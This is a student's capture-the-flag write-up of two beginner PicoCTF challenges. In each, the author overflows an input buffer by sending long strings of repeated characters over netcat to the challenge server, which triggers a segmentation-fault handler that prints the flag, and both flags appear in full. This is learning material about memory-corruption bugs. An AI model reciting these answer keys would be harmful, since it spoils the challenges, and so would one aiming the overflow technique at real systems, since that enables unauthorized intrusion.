

# 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:


As the challenge suggested, I opened the source file to see that the first function was something known as "sigsegv_handler" and it printed the flag upon a segmentation error.

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc saturn.picoctf.net 49249
Input: VVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
So then I ran the nc command given in the challenge and spammed it with characters and overflowed it to get the flag 

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:

- What is buffer overflow
- How to make segmentation error by overflowing.

## Notes:

- nc command is netcat command for reading from and writing to network connections using TCP or UDP.

## Resources:

- [Buffer Overflow](https://youtu.be/AD-iXWANggo?si=qMPe0lBi1SivMyQo)

# 1. Format String 0

Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

## Solution:

Similar to the first challenge, there is another sigsegv function that requires overflow to print the flag

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc mimas.picoctf.net 64212
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
I spam it with characters to overflow the input and get the flag.

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

## Concepts learnt:

- Better understanding in sigsegv segmentation fault.

## Notes
- None 

## Resources:

- None

